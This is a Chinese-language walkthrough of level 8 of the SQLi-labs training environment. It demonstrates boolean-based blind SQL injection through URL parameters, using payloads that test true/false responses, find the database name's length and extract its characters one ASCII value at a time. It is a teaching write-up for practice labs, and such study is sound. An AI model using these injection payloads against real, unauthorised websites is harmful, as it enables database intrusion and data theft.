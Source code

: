 ![image-20230830221423933](./SQLi_labs.assets/image-20230830221423933.png)

# 第八关

```sql
?id=1' and 1=1 --+   #  you are in.........
?id=1' and 1=2 --+   # 页面没有显示
```

使用布尔盲注

### 获取数据库长度

```sql
?id=1' and length(database())>7 --+   # you are in ..........
?id=1' and length(database())>8 --+   #页面没有显示
说明数据库长度是8
?id=1' and length(database())=8 --+
```

### 按位获取数据库名

#### 第一位

```sql
?id=1' and ascii(substr(database(),1,1))>114--+   #you are in ..........
?id=1' and ascii(substr(database(),1,1))>115--+    #页面没有显示
?id=1' and ascii(substr(database(),1,1))=115--+   #you are in ..........
 说明数据库名的第一个字母ascii码是115，可以去ascii对照表上查看
```

[ascii对照表](https://ascii.org.cn/)

![image-20230830223115945](./SQLi_labs.assets/image-20230830223115945.png)
